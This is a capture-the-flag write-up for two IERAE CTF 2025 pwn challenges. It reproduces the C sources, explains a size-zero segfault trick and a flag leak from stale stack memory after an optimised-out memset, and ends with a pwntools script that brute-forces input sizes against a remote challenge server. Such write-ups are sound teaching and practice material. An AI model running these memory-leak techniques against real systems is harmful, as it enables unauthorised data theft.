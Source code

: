# IEREA CTF 2025


## Challenges: Length Calculator & Stdio_studio
**Total Points:** 288 \
**Category:** Pwn

---

## TL;DR

[These challenges are about the importance of handling edge cases and various input signals.]

---

## Length Calculator:
- **chal** : ELF binary.
- **chal.c** : source file

```
// gcc chal.c -o chal

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <sys/mman.h>

void win(int sig) {
  puts("Well done!");
  system("cat ./flag*");
  exit(0);
}

int main() {
  // If you cause SEGV, then you will get flag
  signal(SIGSEGV, win);
  setbuf(stdout, NULL);

  while (1) {
    unsigned int size = 100;
    
    printf("Enter size: ");
    scanf("%u%*c", &size);
    
    char *buf = mmap(NULL, size, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (!buf) {
      puts("Too large!");
      exit(1);
    }
    
    printf("Input: ");
    fgets(buf, size, stdin);
    buf[strcspn(buf, "\n")] = '\0';
    
    printf("Your string length: %d\n", strlen(buf));
  }
}
```


From the source code, we can that a `win()` function is given, and in order to call it, a SIGSEGV signal must be triggered: `signal(SIGSEGV, win);`

So, by simply giving `0` as size, the instruction `buf[strcspn(buf, "\n")] = '\0'; ` causes a SIGSEGV because `buf` has size 0, it tries to write `\0` into `buf[strcspn(buf, "\n")]`. 

![pOc](./pics/Screenshot%20from%202025-06-22%2001-01-28.png)


## Stdio_studio:
- **chal** : ELF binary.
- **chal.c** : source file

Here's `chal.c`:

```
// gcc chal.c -o chal -O3

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void load_flag() {
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
}

void echo(void) {
  unsigned int size;
  char *buf;

  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
}

int main() {
  setbuf(stdout, NULL);

  puts("1. Load flag");
  puts("2. Echo");

  while (1) {
    int cmd;

    printf("Enter command: ");

    scanf("%d%*c", &cmd);

    if (cmd == 1) load_flag();
    else if (cmd == 2) echo();
    else {
      puts("Invalid command :(");
      return 0;
    }
  }
}
```
First off, notice that the binary is compiled with the command `gcc chal.c -o chal -O3`, and keep it for later.

We've got 3 functions, `main()` and `echo()` and `load_flag()`.\
The main function queries us to either tap 1 to load the flag into memory, or 2 to read the stack.

### Analysis:
Let's start with `echo()`:
```
  printf("Size: ");
  scanf("%u%*c", &size);

  buf = alloca(size);
  if (!buf) {
    puts("Too large!");
    exit(1);
  }

  printf("Input: ");
  fgets(buf, size, stdin);

  sleep(1);

  printf("Output: %s\n", buf);
  ```

Basically, this function asks for a size from the user, and then uses it to allocate stack memory with `alloca()`, and reads from stdin and displays the content of the buffer(...and beyond). \
**Note**: Alloca(size) is equivalent to a simple `sub rsp, sz`; so it's not like a heap allocation.

Let's move on to `load_flag()`:
```
  char flag[128] = "";

  FILE *fp = fopen("flag.txt", "rb");
  if (!fp) {
    puts("Something went wrong. Call admin.");
    exit(1);
  }

  fread(flag, sizeof(char), 128, fp);
  fclose(fp);

  // puts(flag); // Sorry! No flag for you!
  memset(flag, 0, 128); // The secret should be cleared up
```

This function reads the flag from *flag.txt*, stores it in a buffer, and then seemingly clearing it up at the end.

But wait, remember that the binary is compiled with the `-O3` option.\
The -O3 option in GCC enables the highest level of standard optimization. It includes all optimizations from -O2 plus additional optimizations. So in a nutshell, the line `memset(flag, 0, 128);` is opitimized out, hence, the flag still lives in memory.


### Exploitation strategy:
- Since calling `echo()`after `load_function()`, makes its stack frame live in - roughly - the same exact addresses as the latter, we can print the flag by iterating through 1 to 111 (for example) and try to make our input contiguous to the flag bytes, so that printf catches it and prints along with the data supplied.


**PoC:**

```

from pwn import *


for i in range(20, 111):
    #p = process('./chal')
    p = remote('35.187.219.36', 33335)
    p.recv()
    p.sendline(b'1')
    p.recv()
    p.sendline(b'2')
    p.recv()
    p.sendline(str(i).encode())
    p.recv()
    p.shutdown('send')
    res = p.recvuntil(b"Enter command: ")
    if b'IERAE{' in res:
        print(res)

    p.close()

```

![pOc](./pics/Screenshot%20from%202025-06-22%2000-58-08.png)
